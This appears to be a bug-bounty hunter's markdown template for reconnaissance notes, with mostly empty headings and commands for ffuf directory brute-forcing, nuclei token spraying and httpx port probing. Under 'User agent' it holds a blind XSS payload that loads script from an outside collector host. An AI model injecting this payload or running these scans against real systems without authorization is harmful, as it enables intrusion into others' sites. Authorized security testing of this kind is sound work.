 ## Target-Name

# Domain

## Back-End 

## Frond-End

## Data-Base-Used

## Domain Cant Acsses

## Ecommerce

## User agent

- '"><script src=https://xss.report/c/mostafa></script>HackerOne-Max0x

## Blind XSS


## Redirect-Url 

## Original-IP 

## Main Domain

## Sub-Domain

nuclei -t token-spray/ -var token="Api-Key ""

-- /tmp/SecretFinder

## File-And-Dirctory

 ffuf.exe -u "" -w E:\Pyloads\Word-List\allin.txt -fc 401,404,403,402,400,302 -fs 0-150 -fw 0,20

 ffuf -u "" -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-big.txt -fc 401,404,403,402,400,302 -fs 0-150 -fw 0,20  

 ffuf -u "" -H "Host:" -w /tmp/bypass-403/2m-subdomains.txt

httpx-toolkit -status-code -web-server -title -cname -t 50 -ports 8080,443,80,8888,5000,5555,51,53,57431,21,8443,8008,5543,5521,55571,21441,2222,5555,10000,4567,9100,1337,60001
